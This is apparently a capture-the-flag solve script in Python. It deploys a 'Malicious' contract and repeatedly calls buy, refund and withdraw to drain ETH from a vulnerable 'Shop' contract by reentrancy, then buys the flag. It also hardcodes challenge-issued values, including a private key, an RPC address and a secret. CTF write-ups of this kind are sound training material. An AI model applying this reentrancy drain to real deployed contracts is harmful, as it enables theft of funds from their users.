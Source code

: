 ```python

# Values given during challenge init
SHOP_ADDRESS = "0xA38f1339D5807d04c1C6beB4c3fa0437Aa937f67" # PUT YOURS
RPC = "http://64.23.154.146:48217" # PUT YOURS
PRIVATE_KEY = "0x63c3173c9b7a1e975202c1a386cd22610a28a8088828553fec51c93ae7bf3a1f" # PUT YOURS
WALLET_ADDRESS = "0x78367589e5Dd25f375369865E0B70D9D6BAB6306" # PUT YOURS
SECRET = "851c48a67005d02ccd81db0f33ffc7923cf6563979a5180bc902d2b894b9abd8" # PUT YOURS

if __name__ == '__main__':
    web3 = Web3(Web3.HTTPProvider(RPC))
    print(f'Balance: {get_balance(WALLET_ADDRESS)} ETH\n')

    Shop = ShopContract(WALLET_ADDRESS, PRIVATE_KEY, RPC)
    Malicious = MaliciousContract(WALLET_ADDRESS, PRIVATE_KEY, RPC)

    print("STEP 1: Deploying Malicious.sol...")

    Malicious.deploy(SHOP_ADDRESS)
    Shop.attach(SHOP_ADDRESS)

    print(f'Malicious contract deployed at: {Malicious.contractAddress}')
    print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
    print("\n\n\n")


    # We must do step this step 2 times cause for the first time 
    # we exploit the Reentrancy with only 4 ETH remaining, consuming all of our gas before the end
    for i in range(2):
        print(f"STEP {2+i+2}: Buy item 0 for 5 ether...")

        Malicious.buy(0, 1, web3.to_wei(5, 'ether'))

        print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
        print("\n\n\n")



        print(f"STEP {3+i+2}: Perform the Reentrancy exploit...")

        Malicious.refund()

        print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
        print("\n\n\n")



        print(f"STEP {4+i+2}: Withdraw ETH drained by our Malicious contract...")

        Malicious.withdraw()

        print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
        print("\n\n\n")



    print(f"STEP 8: Buy the flag...")

    Shop.buy(3, 1, web3.to_wei(1337, 'ether'))

    print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
    print("\n\n\n")


```